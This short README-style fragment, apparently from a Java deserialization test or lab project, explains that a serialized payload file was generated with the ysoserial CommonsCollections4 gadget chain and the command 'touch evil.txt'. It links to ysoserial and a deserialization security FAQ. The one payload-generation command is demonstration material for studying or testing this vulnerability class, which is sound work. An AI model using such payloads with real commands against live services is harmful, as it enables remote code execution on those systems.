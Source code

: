 `CommonsCollections4.ser` was created with `java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections4 "touch evil.txt" > CommonsCollections4.ser`.

Resources

- https://github.com/frohoff/ysoserial
- https://www.christian-schneider.net/JavaDeserializationSecurityFAQ.html